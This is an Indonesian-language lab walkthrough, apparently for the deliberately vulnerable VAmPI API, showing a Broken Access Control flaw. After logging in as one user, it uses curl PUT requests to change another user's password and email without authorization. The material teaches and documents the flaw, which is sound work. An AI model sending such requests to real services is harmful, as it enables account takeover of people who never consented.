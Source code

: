 # Unauthorized Password Change
Access Control menerapkan kebijakan sedemikian rupa sehingga pengguna tidak dapat bertindak di luar izin yang dimaksudkan. Kegagalan otorisasi biasanya menyebabkan pengungkapan informasi yang tidak sah, modifikasi, penghapusan data atau pelaksanaan fungsi bisnis lain di luar batas pengguna. Misalnya adalah mengizinkan melihat atau mengedit akun orang lain, dengan memberikan pengenal uniknya (insecure direct object references)

- Login terlebih dahulu untuk mengakses endpoint `/users/v1/{username}/password` dengan akun yang sudah dibuat di proses instalasi kemudian copy nilai `auth_token`
```sh
curl http://IP_Server:5000/users/v1/login -d '{"username":"userapi","password":"12345"}' -H 'Content-Type: application/json' --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/unathorized%20password%20change/unauthorized%201.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/unathorized%20password%20change/unauthorized%202.JPG)

- Setelah kita login sebagai user `userapi` sekarang kita coba mengubah password user `name1` melalui endpoint `/users/v1/{username}/password`
```sh
curl -X PUT http://IP_Server:5000/users/v1/name1/password -d '{"password":"testing"}' -H 'Authorization: Bearer token' -H 'Content-Type: application/json' -H "Accept: application/json" --proxy http://127.0.0.1:8080 -v
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/unathorized%20password%20change/unauthorized%203.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/unathorized%20password%20change/unauthorized%204.JPG)

- Dari percobaan diatas, terlihat bahwa sistem memberi respon HTTP code 204 yang artinya request pengubahan password user `name1` telah berhasil dilakukan
- Di sisi lain kita juga bisa mengubah email user `name1` melalui endpoint `/users/v1/{username}/email`. Jika `auth_token` sudah expire, anda harus melakukan login kembali dan copy value `auth_token` yang baru
```sh
curl -X PUT http://IP_Server:5000/users/v1/name1/email -d '{"email":"testing@mail.com"}' -H 'Authorization: Bearer token' -H 'Content-Type: application/json' -H "Accept: application/json" --proxy http://127.0.0.1:8080 -v
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/unathorized%20password%20change/unauthorized%205.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/unathorized%20password%20change/unauthorized%206.JPG)

- Dari percobaan diatas, terlihat bahwa sistem memberi respon HTTP code 204 yang artinya request pengubahan email user `name1` telah berhasil dilakukan
- Dari serangkaian percobaan diatas, dapat kita simpulkan bahwa kita bisa mengubah password dan email dari user apapun tanpa harus login sebagi user yang bersangkutan. Inilah yang disebut dengan celah keamanan Broken Access Control